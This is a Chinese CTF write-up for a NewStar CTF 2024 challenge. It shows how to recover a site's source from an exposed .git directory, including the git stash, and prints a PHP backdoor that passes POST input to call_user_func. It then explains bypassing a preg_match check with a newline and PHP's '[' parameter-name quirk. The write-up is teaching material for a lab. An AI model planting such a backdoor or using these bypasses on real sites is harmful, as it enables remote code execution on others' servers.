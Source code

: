 ## PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![](assets/images/wp/2024/week2/image (6).png)

使用 GitHacker https://github.com/WangYihang/GitHacker 工具从 .git 文件夹中泄露文件到本地。

<Container type='info'>

GitHacker工具可快速使用 Pip 安装：

```Bash
pip install githacker
```

</Container>

![image (7)](assets/images/wp/2024/week2/image (7).png)

随后进入 output 文件夹，可以看到恢复的网站源码：

![img](assets/images/wp/2024/week2/image (8).png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![image (9)](assets/images/wp/2024/week2/image (9).png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```Bash
git stash list
```

![image (10)](assets/images/wp/2024/week2/image (10).png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

> ::: warning 注意
>
> 如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.
>
> :::

> ::: tip Stash 的作用
>
> 有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。
>
> 又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。
>
> 一些常见的 Stash 命令如：
>
> - `git stash`
>
> 保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save ``'一些信息``'` 可以添加一些注释。
>
> - `git stash pop [–index] [stash_id]`
>
> 从 Stash 中释放内容，默认为恢复最新的内容到工作区。

使用 `git stash pop` 恢复后门文件到工作区。

![image (11)](assets/images/wp/2024/week2/image (11).png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![image (12)](assets/images/wp/2024/week2/image (12).png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```PHP
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```PHP
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```Python
preg_match('/^Welcome$/D',"Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![image (13)](assets/images/wp/2024/week2/image (13).png)